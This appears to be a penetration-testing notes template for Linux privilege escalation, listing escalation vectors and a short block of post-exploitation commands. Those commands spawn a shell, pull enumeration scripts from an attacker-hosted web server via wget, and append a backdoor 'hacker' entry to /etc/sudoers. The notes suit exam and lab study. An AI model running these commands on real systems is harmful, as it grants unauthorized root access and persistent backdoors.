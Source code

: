 

----------------------------------------------------------------------------



'''''''''''''''''''''''''''''''''' PRIVESC '''''''''''''''''''''''''''''''''



-----------------------------------------------------------------------------



## Privilege escalation

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs


### To-try list

Here you will add all possible leads. What to try.


### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard


# Writable directories
/tmp
/var/tmp


# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

